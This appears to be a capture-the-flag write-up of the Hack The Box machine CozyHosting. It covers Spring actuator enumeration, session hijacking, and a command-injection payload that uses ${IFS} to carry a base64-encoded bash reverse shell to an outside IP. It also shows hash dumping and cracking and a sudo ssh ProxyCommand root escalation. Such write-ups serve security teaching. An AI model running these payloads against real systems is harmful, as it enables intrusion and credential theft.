 ```yaml
---
layout: post_1
title: "CozyHosting - HTB"
date: 2024-03-02
---
```


# HTB CozyHosting Write Up
![HTB CozyHosting](/assets/2024-03-02-writeups-cozyhosting-htb/machine_info.png "HTB CozyHosting")


## Introduction
Cozy Hosting is a cloud server provider company, which offer multiple management tools.

## Network Scan

<details>
<summary><b>Nmap scan result</b></summary>

~~~
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4356bca7f2ec46ddc10f83304c2caaa8 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEpNwlByWMKMm7ZgDWRW+WZ9uHc/0Ehct692T5VBBGaWhA71L+yFgM/SqhtUoy0bO8otHbpy3bPBFtmjqQPsbC8=
|   256 6f7a6c3fa68de27595d47b71ac4f7e42 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHVzF8iMVIHgp9xMX9qxvbaoXVg1xkGLo61jXuUAYq5q
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

</details>

## Investigation
First, when we look at the port scan result we can see a usual web server infrastructure that exposes SSH to further management.  
It is using nginx as a reverse proxy and redirect http requests to http://cozyhosting.htb.  
![CozyHosting website](/assets/2024-03-02-writeups-cozyhosting-htb/cozyhosting_website.png "CozyHosting website")

The main website contains a login page that doesn't allow registration. We perform some basic SQLi tests but none of them worked/crashed.  
![Login Page](/assets/2024-03-02-writeups-cozyhosting-htb/login_page.png "Login Page")

Reverse proxy technologies can forward the request to another server that is running on localhost only.
Sometimes the backend server can return this information on the HTTP Header, which wasn't this case.  
Another way to perform this test is to access an error page, the 404 can be a specially crafted for a better UX than the default nginx error.  
We got the following message  
![Whitelabel Error](/assets/2024-03-02-writeups-cozyhosting-htb/whitelabel_error.png "Whitelabal Error")

This doesn't tell which server is in place, but we can search for the error and found out where it came from.  
A lot of results pointed it out to the [Spring Boot Framework][java-spring-boot].  
Now we know what we are dealing with, we can perform enumeration targeting the framework only.  
A [Hacktricks guide on Spring Actuators][spring-actuators] set us in the right direction.
First we launch a directory scan using a [spring-boot.txt list from SecLists][spring-seclists].
```
$ ffuf -w ~/tools/lists/spring-boot.txt:FUZZ -u http://cozyhosting.htb/FUZZ -H 'Host: cozyhosting.htb'

... SNIP ...

actuator                [Status: 200, Size: 634, Words: 1, Lines: 1]
actuator/env/home       [Status: 200, Size: 487, Words: 13, Lines: 1]
actuator/env            [Status: 200, Size: 4957, Words: 120, Lines: 1]
actuator/env/lang       [Status: 200, Size: 487, Words: 13, Lines: 1]
actuator/env/path       [Status: 200, Size: 487, Words: 13, Lines: 1]
actuator/mappings       [Status: 200, Size: 9938, Words: 108, Lines: 1]
actuator/health         [Status: 200, Size: 15, Words: 1, Lines: 1]
actuator/sessions       [Status: 200, Size: 145, Words: 1, Lines: 1]
actuator/beans          [Status: 200, Size: 127224, Words: 542, Lines: 1]
```

In the `actuator/sessions` we can get a session token for the user `kanderson`.
![Kanderson Session](/assets/2024-03-02-writeups-cozyhosting-htb/kanderson_session.png "Kanderson Session")
Using this token we can login into the cozyhosting.htb website.

The admin dashboard
![Admin dashboard](/assets/2024-03-02-writeups-cozyhosting-htb/admin_dashboard.png "Admin bashboard")

Exploring the dashboard for more information but none was found.

There is a service that enable us to include a host into the automatic patch list.
Now we will the service using placeholder values.
```
$ curl -vv -X POST http://cozyhosting.htb/executessh -H 'Cookie: JSESSIONID=60624E501F34D4469CFBE1CD53AF3273' --data 'username=user&host=host'
... SNIP ...
< HTTP/1.1 302 
< Server: nginx/1.18.0 (Ubuntu)
< Content-Length: 0
< Location: http://cozyhosting.htb/admin?error=ssh: Could not resolve hostname host: Temporary failure in name resolution
... SNIP ...

```

Then, test for command injection
```
$ curl -vv -X POST http://cozyhosting.htb/executessh -H 'Cookie: JSESSIONID=60624E501F34D4469CFBE1CD53AF3273' --data 'username=;user&host=host'
... SNIP ...
< Location: http://cozyhosting.htb/admin?error=usage: ssh [-46AaCfGgKkMNnqsTtVvXxYy] [-B bind_interface]           [-b bind_address] [-c cipher_spec] [-D [bind_address:]port]           [-E log_file] [-e escape_char] [-F configfile] [-I pkcs11]           [-i identity_file] [-J [user@]host[:port]] [-L address]           [-l login_name] [-m mac_spec] [-O ctl_cmd] [-o option] [-p port]           [-Q query_option] [-R address] [-S ctl_path] [-W host:port]           [-w local_tun[:remote_tun]] destination [command [argument ...]]/bin/bash: line 1: user@host: command not found
... SNIP ...
```

At this moment we know that the server is executing the ssh command which has a basic syntax of `ssh USERNAME@HOSTNAME`.
We can build a reverse shell command.
In the following tests we found that there are a whitespace filter on username.  
To bypass the filter we can use ${IFS} instead of spaced and execute our reverse shell.  
```
$ curl -vv -X POST http://cozyhosting.htb/executessh -H 'Cookie: JSESSIONID=60624E501F34D4469CFBE1CD53AF3273' --data 'username=;echo${IFS}YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC4xMTEvNTU1NSAwPiYxCg==${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash;&host=host'

```

### User app
The shell was execute as the user `app` on /app dir
```
uid=1001(app) gid=1001(app) groups=1001(app)
```

Users with shell:
```
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
app:x:1001:1001::/home/app:/bin/sh
josh:x:1003:1003::/home/josh:/usr/bin/bash

```

The cozyhosting app is /app/cloudhosting-0.0.1.jar
Check running processes to see if any variable was passed as parameter
```
$ ps aux
... SNIP ...
/usr/bin/java -jar cloudhosting-0.0.1.jar
... SNIP ...

```

We can decompile it with jadx and search for password. We found two hardcoded passwords, one for kanderson and another for postgresql.
```
kanderson:
    username=kanderson&password=MRdEQuv6~6P9

postgres:
    spring.datasource.username=postgres
    spring.datasource.password=Vg&nvzAQ7XxR
```

Both of these passwords aren't reused.

In the postgresql database, we can search for more password hashes and test again for password reuse.
```
postgres=# \l
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges   
-------------+----------+----------+-------------+-------------+-----------------------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
(4 rows)

```

Dumping users on cozyhosting
```
postgres=# \c cozyhosting
... SNIP ...
cozyhosting=# \dt
         List of relations
 Schema | Name  | Type  |  Owner   
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres
(2 rows)
cozyhosting=# select * from users;
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)

```

The admin hash was cracked with hashcat
```
$ hashcat -a 0 -m 3200 admin.hash ~/Downloads/rockyou.txt
... SNIP ...
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited
... SNIP ...

```

The password was reused for user `josh`.

### User josh
```
uid=1003(josh) gid=1003(josh) groups=1003(josh)
```

Checking for sudo commands:
```
$ sudo -l
... SNIP ...
User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *

```

We can use the [GTFOBins SSH guide][gtfobins-ssh] to gain root access
```
$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# id
uid=0(root) gid=0(root) groups=0(root)

```

[java-spring-boot]: <https://spring.io/projects/spring-boot> "Spring Boot"
[spring-actuators]: <https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/spring-actuators> "Spring Actuators"
[spring-seclists]: <https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt> "SecLists Spring"
[gtfobins-ssh]: <https://gtfobins.github.io/gtfobins/ssh/> "gtfobins-ssh"
